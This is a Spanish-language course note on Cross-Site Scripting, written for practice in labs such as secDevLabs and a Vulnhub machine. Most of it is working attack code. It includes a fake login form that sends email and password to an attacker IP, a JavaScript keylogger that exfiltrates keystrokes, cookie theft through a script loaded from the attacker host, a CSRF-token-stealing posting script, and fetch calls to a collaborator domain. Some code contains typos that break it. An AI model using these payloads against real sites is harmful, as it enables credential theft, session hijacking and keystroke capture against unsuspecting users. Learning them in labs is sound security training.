 # Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
* [Ejercicios-XSS](https://sudo.co.il/xss/)

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

## HTML

```javascript
<h1>Hola</h1>                                                              /// Podemos hacer inyecciones con codigo HTML
<marquee>Hola</marquee>                                                    /// Podemos usar marquee para que el texto nos salga animado, de izquierda a derecha 

<a href="https://www.ionos.mx/digitalguide/URL">Texto ancla</a>            /// Para colocar un enlace 

<img src="images/imagen.png">                                              /// Para agregar una imagen
<img src="https://test.com/images/imagen.png">

<img src="X" onerror=alert(1) />                                                     /// Para colocar un alert basado en un error 

<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">     /// Para agregar una pagina dentro de otra pagina con dimenciones 
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

```javascript
<script>alert("XSS")</script>          /// Creamos una ventana emergente con codigo javascript que dice XSS
<script>prompt('Mensaje')</script>     /// Ventana emergente para ingresar algun dato                

<script>                               /// Para mandar algo por el metodo POST a un dominio 
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>
```

## Recibir información por medio de un 'Alert'  

```javascript
// Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP. 

<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){   
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>

	/// If = Verificar si el correo esta vacio o no
	/// fetch = Realizar una peticion a nuestra IP de atacante para recibir la informacion 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

## Recibir información 

```html
<!-- También lo podemos hacer con HTML y Javascript para poder hacer un (Phishing), el cual nos regresara a nuestra maquina victima el correo y la passwd de la victima -->

<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld("formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


## Keylogger JavaScript

```javascript
// Podriamos ver las pulsaciones de teclado en tiempo real dentro de la web

<script>
   var k = "";    
   document.onkeypress = funtion(e){
        e = e || window.event;                 // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>

	// K = Variable que almacena las pulsaciones  
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

## Redirección al usuario 

```javascript
// Podemos crear un Script para redirigir al usuario a otra pagina web 

<script>
	window.location.href = "https://hack4u.io";
</script>
```

## Cookie Hijacking

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activado el **httpOnly** el cual se encuentra en **Application** ya que eso impediría poder robarla.
* Esto seria un **Cookie Hijacking**

```javascript
// 1. Esto lo colocaremos en la web en donde se acontece el XSS

<script src="http://192.168.68.111/test.js"></script>    // Colomos la IP de atacante y el nombre del archivo malicioso
```

```javascript
// 2. En nuestra maquina de atacante crearemos este archivo 'js' con el cual robaremos la Cookie de Sesion del usuario

❯ nvim test.js                                                  // Creamos el archivo js

	var request = new XMLHttpRequest();                        // Nos permite controlar peticiones 
	request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
	request.send();         
```

```bash
❯ python3 -m http.server 80               # Nos montamos un servidor http 80 para que la victima acceda al archivo malicioso 

# Después de tener la 'Cookie de Session' podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, iniciaremos como el otro usuario.
```

## Victima cree un post en una web 

```javascript
// 1. Esto lo colocaremos en la web de prueba y crearemos la publicación

<script src="http://192.168.68.111/pwned.js"></script>  // Colomos la IP de atacante y el nombre del archivo malicioso
```

```javascript
// Esto se usa una vez obtenido la 'csrf_token y value', los datos los obtenemos con BurpSuite al momento de crear una publicacion 

❯ nvim pwned.js                                                 // Creamos el archivo js

	var domain = "http://localhost:10007/newgossip";
	var req1 = new XMLHttpRequest();
	req1.open('GET', domain, false);
	req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
	req1.send();
	
	var response = req1.responseText;
	var parser = new DOMParser();
	var doc = parser.parserFromString(respose, 'text/html');
	var token = doc.getElementsByName("_csrf_token")[0].value;
	
	var req2 = new XMLHttpRequest();
	var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
	req2.open('POST', 'http://localhost:10007/newgossip', false); 
	req2.withcredentials = true;
	req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	req2.send(data);
```

```bash
❯ python3 -m http.server 80            # Nos montamos un servidor http 80 para que el usuario pueda acceder a nuestro archivo malicioso 
```

## Maquina para practicar los XSS

En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)


